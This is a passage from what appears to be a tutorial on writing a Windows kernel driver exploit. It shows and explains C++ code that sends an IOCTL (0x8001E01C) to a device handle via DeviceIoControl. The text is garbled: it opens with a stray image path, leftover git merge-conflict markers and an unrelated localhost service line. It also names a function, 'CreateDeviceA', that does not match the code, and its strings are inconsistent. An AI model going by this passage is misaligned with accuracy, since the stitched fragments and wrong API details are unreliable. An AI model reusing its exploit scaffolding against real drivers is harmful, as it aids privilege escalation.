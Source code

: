 =======
After a few seconds, the local service will be published at _<http://127.0.0.1:4000>_.
>>>>>>> 717659d66ef1f68505417fbc8498b88bdbbb1f09

Adding more code our exploit so we can send IOCTL's to Kernel at Ring 0, for that we can use C++ Function called `CreateDeviceA`

```c++
	DWORD byteRetn;

	DWORD IOCTL = 0x8001E01C;

	DWORD Expl[0x1000];

	printf("[+] Calling DeviceIoControl to Load TOCTL Code\n");
	Sleep(500);


	if (DeviceIoControl(hDevice, IOCTL, (LPVOID)0, 0x3, NULL, 0, &byteRetn, NULL)) {
		fprintf(stdout, "[+] SuccessFully Called IOCTL Using DeviceIoControl %p \n", IOCTL);
	}
	else {
		fprintf(stderr, "[-] Error Calling IOCTL Using DeviceIoControl\n");
	}


	CloseHandle(hDevice);


	return 0;

```
if you are not understand the code then dont't worry here is the TL;DR explaination about our added code after we successfully driver interaction code

We interacts with a device driver using the `DeviceIoControl` function. Let's break down the code step by step:

```c++
DWORD byteRetn;
DWORD IOCTL = 0x8001E01C;
DWORD Expl[0x1000];
```
- `DWORD byteRetn;`: This declares a variable byteRetn of type DWORD, which is a 32-bit unsigned integer. It seems like this variable will be used to store a return value, possibly the number of bytes returned by the DeviceIoControl function.

- `DWORD IOCTL = 0x8001E01C;`: This defines an IOCTL (Input/Output Control) code with the value 0x8001E01C. IOCTL codes are used to communicate with device drivers and perform various operations on devices.

- `DWORD Expl[0x1000];`: This declares an array named Expl of type DWORD with a size of 0x1000 (4096) elements. The purpose of this array is not immediately clear from the provided snippet.

```c++
printf("[+] Calling DeviceIoControl to Load IOCTL Code\n");
```
- This line prints a message to the console indicating that the DeviceIoControl function is being called to load a IOCTL.
